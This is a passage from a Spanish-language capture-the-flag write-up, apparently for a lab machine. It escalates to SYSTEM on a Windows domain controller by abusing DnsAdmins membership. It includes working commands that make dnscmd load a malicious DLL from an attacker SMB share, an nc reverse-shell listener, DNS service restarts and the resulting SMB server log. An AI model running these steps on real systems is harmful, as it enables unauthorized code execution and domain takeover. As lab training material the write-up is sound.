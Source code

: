 - Ahora vamos a pasarlo tal como nos dicen en el recurso.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd.exe /config /serverlevelplugindll \\10.10.14.222\smbFolder\zi.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

- Nos vamos a poner en escucha para que cuando arranquemos el servicio nos llegue la reverse shell.

```bash
➜  content rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Ahora vamos a parar el servicio.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

- Ahora lo iniciamos para que se realice la autenticación y cargue el `dll` malicioso.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe
start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3132
        FLAGS              :
```

## root.txt

- Recibimos la shell. (En caso de que no te funcione para e inicia el servicio varias veces o también vuelve a ejecutar el `dnscmd.exe`).

```bash
➜  content impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.96.155,52274)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
```